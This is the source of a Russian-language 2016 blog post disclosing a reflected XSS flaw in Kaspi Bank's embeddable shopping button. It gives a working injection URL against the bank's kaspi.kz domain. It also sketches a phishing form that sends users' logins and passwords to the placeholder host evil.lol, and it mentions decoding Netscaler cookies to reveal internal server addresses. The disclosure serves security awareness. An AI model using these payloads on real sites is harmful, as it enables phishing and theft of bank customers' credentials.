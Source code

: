 ```yaml
---
layout: post
title: "Уязвимость в Kaspi Bank 2 (XSS)"
date: '2016-3-29T21:56:24+06:00'
categories: bank security
about: 'about.html'
---
```

Сегодня расскажем об очередном XSS на сайте банка. Предыдущий пост про Kaspi можно прочитать [здесь].
<!--more-->

>**XSS** (cross site scripting) или межсайтовый скриптинг - это серьезная уязвимость. Простыми словами, на вашем сайте (без вашего 
разрешения) выполняется чужой код. То есть, кто-то может контролировать что делает или видит пользователь вашего сайта! 

Часто на сайтах интернет-магазинов можно увидеть вот такую кнопку от Kaspi банка. Здесь также показан ответ от сервера банка.
![image][img0]
  
Сама кнопка отображается с помощью &lt;iframe&gt;; ссылка выглядит так:
  
>hxxps://kaspi.kz/kaspibutton/frame?template=button&merchantSku=
00000014673&merchantCode=XXXXX&city=000000&id=ks-xxxxx

Параметры **template**, **id** и т.д. отображаются на странице без соответствующей обработки. Это значит, что мы можем вставить любой HTML/JS код.
Пример c alert():

>hxxps://kaspi.kz/kaspibutton/frame?template=button&id=kaspi%27};alert%28document.domain%29;var%20a={aa:%27c

![image][img1]
Результат для пользователя:
![image][img2]


Что могут сделать мошенники через XSS? Привидем пример фишинг страницы на сайте банка через **document.write()**.
![image][img3]

Код создает такую форму:

&lt;form action=**//evil.lol**&gt;&lt;input name=“login”&gt;&lt;input name=“password”&gt;&lt;/form&gt;

![image][img4]

Когда пользователь заполнит и отправит форму, мошенникам остается только посмотреть логи сервера на **evil.lol**. 
Там будет вся необходимая информация. Результат после нажатия кнопки *Login to Kaspi*:
![image][img5]

Как мы видим, нельзя недооценивать последствия вставки кода. Надеюсь, что данное утверждение будет верным.
![image][img6]

**P.S.**<br/>
Похоже, что этот сервер использует Citrix Netscaler. Вы получаете шифрованный куки *NSC_xxxx.xxxxx* 
который можно расшифровать с помощью этого [скрипта] чтобы извлечь имя хоста, порт и внутренний IP сервера. Not bad. 

[здесь]: https://caspicasoft.com/blog/2015/12/03/kaspi-bank-xss-beef
[скрипта]: https://github.com/catalyst256/Netscaler-Cookie-Decryptor
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png
[img6]: /assets/images/{{page.slug}}/img6.png